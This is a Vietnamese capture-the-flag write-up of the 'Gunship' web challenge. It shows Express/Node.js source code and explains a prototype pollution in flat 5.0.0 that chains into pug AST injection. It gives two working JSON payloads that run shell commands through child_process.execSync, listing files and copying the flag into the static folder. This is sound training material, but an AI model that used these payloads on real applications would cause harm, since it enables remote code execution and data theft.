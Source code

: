 # Gunship

## Tóm tắt

Bài này là một bài White Box khi mà được cung cấp cả Source Code. 

Gunship là một Web Application được code bằng Nodejs có sử dụng phiên bản thư viện tồn tại lỗ hổng Prototype Pollution.  

## Walkthrough

Lướt qua ứng dụng thì có duy nhất một tính năng là tên xong trả về lời chào .\_.


![image (1).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606263919/DASj5ewOF.png)
[](../../../.gitbook/assets/image%20%281%29.png)

Chúng ta cũng được cung cấp luôn source code.

 Có 2 endpoint trong đó API khá dài, có thể lỗi ở đây.

```javascript
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

Bài này mình nhận ra ngay ở lúc đọc source. Sử dụng `Pug` là một template engine để compile thành html và sử dụng `flat` để `unflatten` dữ liệu. Hai thư viện này đã tồn tại lỗi ở một số phiên bản trước, 2 phiên bản này mình từng phân tích ở  [https://github.com/biennd279/pug-ast](https://github.com/biennd279/pug-ast) dựa trên bài [https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) nên mình check luôn ở file `package.json` thì đúng vậy.

```javascript
{
	/** **/
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}

```

Nên sử dụng luôn Payload mình đã từng viết. Mình đẩy qua static để lấy được folder hiện tại đỡ phải đẩy ra bên ngoài.

```javascript
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls > /app/static/pwd')"
    }
}
```

![image (2).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606274226/El40tNjks.png)

Và lấy đẩy flag qua static và lấy flag về thôi.

```bash
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
         "type": "Text", 
         "line": "process.mainModule.require('child_process').execSync('cp /app/flag0HKDx /app/static/flag')"
    }
}
```

![image (3).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606283554/6EU-i1s4q.png)


  



